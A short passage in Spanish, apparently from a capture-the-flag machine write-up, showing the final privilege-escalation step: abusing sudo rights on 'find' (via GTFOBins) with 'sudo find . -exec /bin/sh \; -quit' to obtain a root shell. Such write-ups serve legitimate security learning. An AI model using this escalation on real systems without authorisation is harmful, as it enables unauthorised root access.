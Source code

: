 Vemos que podemos ejecutar como `root` el binario `find` por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/find/#sudo

```shell
sudo find . -exec /bin/sh \; -quit
```

Y despues.

```shell
/bin/bash
```

Por lo que ya seremos `root` y habriamos terminado la maquina.
